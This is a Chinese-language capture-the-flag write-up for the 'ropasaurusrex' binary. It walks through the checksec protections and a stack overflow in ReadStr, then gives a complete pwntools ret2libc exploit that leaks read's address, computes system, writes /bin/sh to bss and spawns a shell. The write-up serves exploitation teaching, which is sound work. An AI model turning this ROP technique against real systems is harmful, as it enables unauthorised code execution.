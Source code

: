 # 确定安全保护

```text
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

可以看出主要开启了堆栈执行保护。

# 确定漏洞

简单阅读源码之后，可以确定该题的漏洞为栈溢出。

```C
ssize_t ReadStr()
{
  char buf; // [sp+10h] [bp-88h]@1

  return read(0, &buf, 0x100u);
}
```

由于开启了堆栈执行保护，所以我们还是选择利用system函数吧。

# 确定地址

已经给了libc.so，所以我们可以利用对应的偏移来获得system地址。同时我们可以利用栈溢出来获取read的函数地址。

# 基本思路

- 利用栈溢出首先获取read的函数地址。
- 利用相对偏移获取system的函数地址。
- 向bss段写入/bin/sh\x00字符串。
- 调用system函数。

# exp

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
rop = ELF('./ropasaurusrex')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./ropasaurusrex')
libc = ELF('./libc.so')
read_plt = rop.plt['read']
write_plt = rop.plt['write']
read_got = rop.got['read']
bss_base = rop.bss()
pop3_ret = 0x080484b6
vul_addr = 0x080483F4
# get read addr
payload = flat(
    ['a' * 0x88, 'b' * 4, write_plt, pop3_ret, 1, read_got, 4, vul_addr])
sh.sendline(payload)
read_addr = u32(sh.recv(4))
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
# read /bin/sh at bss base
# get shell
payload = flat([
    'a' * 0x88, 'b' * 4, read_plt, pop3_ret, 0, bss_base, 8, system_addr,
    'bbbb', bss_base
])
sh.sendline(payload)
#gdb.attach(sh)
sh.sendline('/bin/sh\x00')
sh.interactive()
```



